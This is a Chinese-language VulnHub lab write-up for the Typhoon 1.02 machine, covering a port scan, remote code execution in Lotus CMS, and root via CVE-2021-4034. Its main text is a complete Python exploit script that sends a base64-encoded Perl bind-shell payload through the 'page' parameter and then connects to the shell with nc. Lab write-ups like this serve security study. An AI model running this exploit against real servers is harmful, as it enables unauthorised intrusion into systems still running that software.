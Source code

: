 +++
ShowToc = true
TocOpen = true
title = '0x019 Typhoon 1.02'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEacdbbff87e00e3b1e7c2b593bc9fdd39截图.png)

这次扫描结果太多了，就不看服务扫描结果了，打眼一看全是高危端口

# 渗透

21端口：

![](/vulnhub_img/WEBRESOURCE1fd2eed0df441ab4c9b5033195fe119c截图.png)

80端口 lotuscms成功getshell，应该还有其他洞，感觉洞很多的样子：

```
# -*- coding: utf-8 -*-
#!/usr/bin/python

import socket
import sys
import time
import os
import base64
import urllib

if len(sys.argv) <= 2:
        print "\n      EXPLOIT - BIND SHELL\n"
        print "   - Remote Command Execution -"
        print "     tested on: Lotus CMS 3.0\n"
        print " Usage:"
        print " ./"+sys.argv[0]+" [TARGET IP] [TCP PORT TO OPEN]"
        print " Example:"
        print " ./"+sys.argv[0]+" 192.168.10.106 4444"
else:
        print "\n      EXPLOIT - BIND SHELL\n"
        print "   - Remote Command Execution -"
        print "     tested on: Lotus CMS 3.0\n"
        print " [*] Generating payload..."

        # Monta o payload
        payload0="perl -MIO -e '$p=fork();exit,if$p;$c=new IO::Socket::INET(LocalPort,"+sys.argv[2]+",Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);system$_ while<>'"
        # Encoda em base64
        payload1 = base64.b64encode(payload0)
        # Junta tudo
        payload2="index');system(base64_decode('"+payload1+"'));#"
        # Encoda URL
        data="page="+urllib.quote(payload2)
        # Calcula o tamanho do payload
        tam = len(data)

        # Monta header + body do request
        request="POST /cms/index.php HTTP/1.1\r\n"
        request+="Host: "+sys.argv[1]+"\r\n"
        request+="User-Agent: Mozilla/5.0\r\n"
        request+="Content-Type: application/x-www-form-urlencoded\r\n"
        request+="Content-Length: "+str(tam)+"\r\n"
        request+="Connection: close\r\n"
        request+="\r\n"
        request+=str(data)

        # Envia o request
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((sys.argv[1],80))
        s.send(request)

        # Exibe o que enviou
        print "\n [*] "+str(len(request))+" bytes sent..."
        print " [*] Getting bind connection...\n"

        # Conecta
        time.sleep(2)
        os.system("nc -vn "+sys.argv[1]+" "+sys.argv[2])

```

![](/vulnhub_img/WEBRESOURCEf0363f514b3370f3c733d384c145ed7d截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCE4295a666d82f90384110925b6e478f06截图.png)

redis未授权应该是有的

![](/vulnhub_img/WEBRESOURCE1d35b284a99f37d5943f82a16dda9360截图.png)

有GCC直接内核提权

CVE-2021-4034

![](/vulnhub_img/WEBRESOURCEff87f9ee0325bd0df0f9d036761e4283截图.png)